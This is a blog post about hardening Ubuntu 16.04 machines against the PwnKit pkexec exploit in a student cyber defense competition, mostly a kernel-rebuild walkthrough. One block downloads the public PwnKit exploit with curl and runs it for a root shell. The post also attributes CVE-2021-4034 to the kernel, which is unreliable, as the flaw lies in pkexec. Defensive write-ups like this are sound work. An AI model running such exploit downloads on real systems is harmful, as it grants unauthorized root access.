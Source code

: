 ```yaml
---
title: "Fixing PwnKit for the Cyber Defense Competition"
excerpt: "In the last Cyber Defense Competition, a major exploit tool PwnKit was used to gain access. Here is how I fixed it for this competition, and watched red team attempt it again and again."
tags:
    - hacking
    - Cyber Defense Competition
categories:
    - posts
---
```


In the last Cyber Defense Competition, we were given three virtual machines running Ubuntu 16.04, that we had to defend from an attacking red team. From precious knowledge, I knew that Ubuntu 16.04 has stopped receiving security updates without a paid plan from Ubuntu, and that the most recent freely available kernel on the apt repo is vulnerable to CVE-2021-4034, an issue in `pkexec` that [PwnKit](https://github.com/ly4k/PwnKit){:target="_blank"} uses to escalate privileges from an unprivileged user, to the root user of a system.

While I do not currently have access to the CDC VMs, I have re-created a default Ubuntu 16.04 server virtual machine to show the steps I took to fix the issue. The first step I took was to verify that PwnKit actually worked on the system, since it was from memory that I thought Ubuntu 16 was vulnerable, and wanted to make sure the time I was spending was not wasted. I started by getting the PwnKit script, and running it on the system with the following commands:

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x PwnKit
./PwnKit
```

When running these steps, I was greeted with this root shell below showing me the exploit worked, and the system was vulnerable.

![PwnKit giving a root shell on Ubuntu Server 16.04](/assets/images/NoPwnKit/pwnkit-shell.png)

The best option possible to actually remediate this issue would be to move to an operating system that that is still receiving security updates. However, as part of competition rules we can not do "major os version" upgrades on the system. So to fix this issue we have to take a different approach to fix this issue. For me, this was recompiling the kernel to a newer LTS version that contains modern security fixes. I used [phoenixNAP's guide](https://phoenixnap.com/kb/build-linux-kernel), as a rough guideline to follow for this process.

The currently running kernel in Ubuntu 16.04 is listed at `4.4.0-210-generic`, so the first step I took was going to the official Linux Kernel website [kernel.org](https://www.kernel.org/){:target="_blank"}, where I had to decide a kernel to download. I choose to download the `4.19.295` linux kernel, since it was the most recent LTS kernel without a major version change. However, I have read that the 5.4 kernel also works properly in Ubuntu 16.04, but have not tested it. Knowing that I would need to run the install commands as root, I switched to root with `sudo su`, then downloaded and un-compressed the kernel, with the following commands:

```bash
sudo su && cd ~
wget https://cdn.kernel.org/pub/linux/kernel/v4.x/linux-4.19.295.tar.xz
tar -xvf linux-4.19.295.tar.xz
rm linux-4.19.295.tar.xz
cd linux-4.19.295
```

Now that the kernel is downloaded, we need to install the dependencies needed to compile the kernel. This can be done with the following command:

```bash
apt install git fakeroot build-essential ncurses-dev xz-utils libssl-dev bc flex libelf-dev bison
```

From here, you have to configure the kernel itself before you compile it. You could choose to do this in a number of ways, but I just use the default config that comes with Ubuntu, since I know that works on the running machine. Then update the config to include new kernel options, automatically using the defaults with the following commands. You will likely get warnings on the first `make olddefconfig`.

```bash
cp /boot/config-4.4.0-210-generic .config
make olddefconfig
make olddefconfig
```

![Screenshot of make olddefconfig](/assets/images/NoPwnKit/olddefconfig.png)

I choose to run `make olddefconfig` twice, since the first time will give and fix a bunch of warnings, then the second time to see if there are any errors. If there isn't you should now be good to compile the kernel. For this I would recommend looking at the number of cores your virtual machine has, and potentially temporarily increasing the number of cores in vcenter to speed up the compile process, but this is not required. To compile the kernel, run `make -j X` where X is the number of cores you have on the system. If you have less than 4 cores, you may want to reduce the number by 1, so that the system is still useable while compiling. This process will take a while, so I would recommend doing something else while it is compiling. For my VM, I was able to give it 24 cores, and it took about 10 minutes to compile.

![Compiling with 24 cores](/assets/images/NoPwnKit/cpucores.png)

As you can see this compilation will use all the CPU compute that it can get it's hands on. After this compilation is complete, you need to install the kernel with the following commands:

```bash
sudo make modules_install
sudo make install
```

This will install the kernel, and the modules needed to run the kernel. By default this should update initramfs, and grub to use the new kernel, but I would recommend running `update-grub`, and verifying that grub sees this new kernel, which can be seen on the lines `4.19.295` which was the kernel we compiled

![update grub](/assets/images/NoPwnKit/grub-update.png)

You now need to reboot, and this will start Ubuntu with your newly compiled kernel. You can verify this by running `uname -r` which should show the kernel version you compiled. This can also be seen in the screenshot below, with the new kernel version of `4.19.295`, and you can see that running the PwnKit script no longer gives a root shell.

![PwnKit failing to run on the new 4.19.295 kernel](/assets/images/NoPwnKit/pwnkit-failure.png)

If you want to be extra careful, you can delete your old kernels, to prevent an attacker from finding a way to execute them, giving them the ability to run the exploit. However, at the time I did not do so, or feel the need to do so, as this would likely require `root` access to do so. At which point, the system would already be considered fully compromised, and some other easier backdoor would likely be used.

This was something that saved my team so many times during the competition, as the red was trying to use this exploit every single time they got a minor foothold in the system, which can be seen in the logs below.

![PwnKit being used by red team](/assets/images/NoPwnKit/pwnkit-logs.png)